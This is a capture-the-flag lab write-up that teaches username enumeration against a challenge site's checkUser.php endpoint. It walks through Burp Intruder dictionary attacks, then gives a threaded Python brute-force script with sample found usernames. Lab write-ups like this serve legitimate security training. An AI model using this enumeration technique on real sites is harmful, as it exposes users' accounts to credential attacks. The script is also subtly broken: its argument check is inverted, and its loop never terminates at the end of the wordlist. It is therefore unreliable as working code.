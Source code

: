 # Challenge #5 - Foo Hosting 2

## Objectives

- The web application is vulnerable to "username enumeration," and your goal is to find as much as you can usernames.
- You have to find at least four usernames: one that begins with the G, one with the H, with the P and with the Z

## Hints

- Recommended tools
  - Burps suite
  - Web Browser
- User Enumeration

## What you will learn

- How to enumerate the usernames of a web application
- How to configure advanced options of Burp Suite
- How to use Burp Intruder to perform dictionary attacks

## Steps


With burp enable, register any user on the system. 

```
http://4.challenge.auth.site/register.php
```

Go to burp history and search the request "checkUser.php". The request send the parameter "username" and receives 1 if this username is available and 0 if is not.

```
POST /checkUser.php HTTP/1.1
Host: 4.challenge.auth.site

username=example
```

Send the request to burp intruder.

On positions, clear all positions and then add only username. Keep the attack type as snipper.

```
username=§example§
```

In payloads, go to payload options and click in load. Select one username wordlist, if you don't have one, download one from the link below.

```
https://github.com/danielmiessler/SecLists/blob/master/Usernames/Names/names.txt
```

In options go to grep extract and them click in add. Select the text "1" and ok.

Start the attack.

**If you're using burp community, this option can take to long. The option below can be a lot quicker.**

## Python way

```
#!/usr/bin/env python3
import requests
import sys
import threading

if len(sys.argv) > 2:
    print('Usage brute-force.py wordlist')

wl = sys.argv[1]
usr = ''

f = open(wl, 'r')

def username_test(name):
    while True:
        usr = f.readline().strip()

        url = 'http://4.challenge.auth.site/checkUser.php'
        data = {'username': usr}

        x = requests.post(url, data=data)

        if x.text == '0':
            print("Found username:", usr)

if __name__ == "__main__":
    for x in range(0,10):
        t = threading.Thread(target=username_test, args=(1,))
        t.start()
```

And run with the command below.

```
python brute-force.py /usr/share/seclists/Usernames/Names/names.txt
Found username: alma
Found username: anne
Found username: ashely
Found username: cassandra
Found username: cassidy
```